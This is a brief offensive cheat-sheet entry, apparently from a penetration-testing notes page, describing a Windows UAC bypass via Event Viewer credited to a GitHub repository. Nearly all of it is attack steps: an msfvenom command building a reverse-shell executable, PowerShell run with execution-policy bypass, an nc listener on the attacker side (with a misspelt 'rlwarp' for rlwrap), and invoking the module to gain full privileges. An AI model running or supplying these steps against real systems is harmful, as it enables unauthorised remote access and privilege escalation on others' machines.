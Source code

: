 Bypass - Credit: [https://github.com/CsEnox/EventViewer-UACBypass](https://github.com/CsEnox/EventViewer-UACBypass):
1. generate an executable reverse shell and upload to the target:
	- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IFACE> LPORT=<PORT> -f exe -o shell.exe`
2. transfer "Invoke-EventViewer.ps1" file to the target
3. (*target*) `powershell -ep bypass`
4. (*target*) `Import-Module .\Invoke-EventViewer.ps1`
5. (*attacker*) `rlwarp nc -nvlp <PORT>`
6. (*target*) `Invoke-EventViewer C:\absolute\path\to\shell.exe`
7. in the new shell you will have full privileges (check with `whoami /all`)

